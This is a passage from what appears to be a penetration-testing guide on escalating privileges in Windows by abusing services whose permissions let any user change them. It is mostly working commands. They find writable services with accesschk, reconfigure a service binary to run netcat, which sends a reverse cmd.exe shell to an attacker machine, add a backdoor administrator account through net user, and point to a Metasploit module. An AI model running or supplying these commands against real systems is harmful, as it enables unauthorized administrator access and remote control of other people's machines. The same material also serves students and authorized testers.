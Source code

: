 Similar to the unquoted service path vulnerability, you can attempt to modify the file path of a service and point it to a malicious executable in a writable directory.

Windows has a tool called named `accesschk.exe` which checks permissions. To display services which can be modified by an authenticated user:

```text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

A service with write permissions for an authenticated user looks like this:

```text
RW [service name] SERVICE_ALL_ACCESS
```

Show the service properties:

```text
sc qc [service name]
```

This is where you can find out the `BINARY_PATH_NAME` value. Change the binary path on a particular service:

```text
sc config [service name] binpath= "C:\tmp\nc.exe -nv [attack machine] 4444 -e C:\WINDOWS\System32\cmd.exe"
sc qc [service name]
sc stop [service name]
sc start [service name]
```

If the service is disabled when you type in `sc qc [service name]` you can enable it using `sc config SSDPSRV start= auto` - note that there is a space between the `=` and the option.

Common errors include ftp-ing `nc.exe` without using the `binary` command first and using the wrong `"` in the path. If you're working with Windows XP, you'll need to [download this version](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe). Also, the Administrator shell fired using this method will not last, so you should send yourself another shell immediately with a different port: 

```text
C:\tmp\nc.exe -nv [attack machine] 80 -e C:\WINDOWS\System32\cmd.exe
```

You can also add a new user and grant administrator rights using the binary path:

```text
sc config [service name] binpath= "net user admin password /add"
sc stop [service name]
sc start [service name]
sc config [service name] binpath= "net localgroup Administrators admin /add"
sc stop [service name]
sc start [service name]
```

Again, if you're super lazy here's a Metasploit Module: `exploit/windows/local/service_permissions`

## AlwaysInstallElevated setting
